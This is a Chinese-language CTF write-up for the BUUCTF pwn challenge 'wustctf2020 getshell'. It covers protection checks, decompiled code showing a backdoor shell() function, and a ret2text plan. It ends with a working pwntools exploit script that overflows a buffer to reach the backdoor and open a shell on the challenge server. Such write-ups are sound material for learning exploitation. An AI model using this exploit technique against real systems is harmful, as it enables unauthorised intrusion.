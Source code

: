 ```yaml
---
author: 
  name: Zephyr
title: wustctf2020 getshell
date: 2022-3-31 10:21:25
permalink: /pages/2e1547494524d1a1
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# wustctf2020 getshell

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/wustctf2020_getshell/wustctf2020_getshell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

vulnerable函数及函数表如下

![wustctf2020_getshell_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/wustctf2020_getshell_1.png)

shell函数如下

```c
int shell()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息：
   
   - `vulnerable`函数存在溢出点
   - 有后门函数`shell`
   - No canary found
   - NX enabled
   - No PIE (0x8048000)
2. 思路：
   - 32位`ret2text`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/wustctf2020_getshell/wustctf2020_getshell'
io = remote('node4.buuoj.cn', 27378)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x18+4
back_door = elf.symbols['shell']
payload=flat(['a'*padding,back_door])
io.recv()
io.send(payload)
io.interactive()
```